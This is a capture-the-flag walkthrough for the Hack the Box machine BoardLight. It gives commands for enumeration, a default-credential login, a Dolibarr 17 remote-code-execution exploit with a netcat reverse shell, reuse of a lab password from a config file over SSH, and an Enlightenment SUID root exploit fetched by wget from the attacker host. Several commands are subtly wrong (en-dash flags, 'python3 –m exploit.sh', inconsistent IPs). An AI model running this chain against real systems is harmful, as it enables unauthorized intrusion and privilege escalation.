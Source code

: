 ## Step 1: Connect to VPN of Hack the Box

```bash
sudo openvpn <vpn-file>
```
**NOTE:** Replace `vpn-file` with actual OVPN file.

## Step 2: Turn on the machine BoardLight
- **IP address:** 10.10.11.11

## Step 3: Run Nmap on the system
```bash
sudo nmap –A –sV –vvv 10.10.11.11
```
You will find there are two ports open: 80/TCP and 22/TCP.

## Step 4: Add the IP address in hosts
```bash
sudo nano /etc/hosts
```
Add the following line:
```plaintext
10.10.11.11    board.htb
```

## Step 5: Run Gobuster
```bash
gobuster vhost --domain board.htb -u http://10.10.11.11 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```
We found `crm.board.htb`. Add this to hosts:
```plaintext
10.10.11.11    crm.board.htb
```

Once we open `crm.board.htb`, there is a login page. Login with the default user ID and password (`admin` and `admin`).

Now we cannot access everything, but we can access Website and Email Templates.

## Step 6: Search for Dolibarr 17 Exploit in Firefox
Search for `Dolibarr 17` exploit in Firefox and hit the link with GitHub.

## Step 7: Clone the GitHub Repository
```bash
git clone https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git
```

## Step 8: Prepare the Exploit
```bash
cd Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
chmod +x exploit.py
```

## Step 9: Netcat and Listen for Request
Open two different terminals:
1. Terminal 1:
    ```bash
    nc –lvnp 666
    ```
2. Terminal 2:
    ```bash
    sudo python3 exploit.py http://crm.board.htb admin admin 10.10.14.77 666
    ```
**NOTE:**
- `admin admin` -> Default ID and Password.
- `10.10.14.77` -> tun0 IP address (use `ifconfig`).
- `666` -> Listening port number.

## Step 10: Access the User Terminal
Go to the desired location:
```bash
cd /html/crm.board.htb/htdocs/config
cat conf.php
```
There will be one user ID and password:
- **User ID:** dolibarrowner
- **Password:** serverfun2$2023!!

## Step 11: Check for Users
Go to `/etc/passwd` and look for `Larissa`.

## Step 12: SSH into Larissa's Account
```bash
ssh larissa@10.10.11.11
```
**Password:** serverfun2$2023!!

After login, list the directory (`ls`). You will see `user.txt`, which is the user flag.

## Step 13: Find the Root Flag
Search for `LinEnum` exploit in Firefox and clone it:
```bash
git clone https://github.com/rebootuser/LinEnum.git
```
Once cloned, list the directory (`ls`) and provide the permission. Send the HTTP server an incoming connection:
```bash
sudo python3 –m http.server 666
```
Now `wget` in the Larissa user terminal:
```bash
wget 10.10.14.77:666/LinEnum
```
Once the incoming request is accepted:
```bash
chmod +x LinEnum.sh
./LinEnum.sh
```
Inside SUID files, you will find an `enlightenment` file. We need to exploit those `enlightenment` files to get the root flag.

## Step 14: Exploit Enlightenment
Search for `enlightenment` exploit and clone it:
```bash
git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
```
Open the file and give permission:
```bash
chmod +x exploit.sh
```
Again, make an outgoing request through the HTTP server to the Larissa user terminal:
```bash
sudo python3 –m exploit.sh
```
Now accept the incoming request from the host machine using `wget`:
```bash
wget 10.10.14.17:666/exploit.sh
```
Once the request is accepted, run the file:
```bash
./exploit.sh
```

## Step 15: Obtain the Root Flag
Once the exploit is running, go to the root directory. Inside the root directory, you will find the root flag.



## Please go through to `BoardLight Hack the Box.docx`
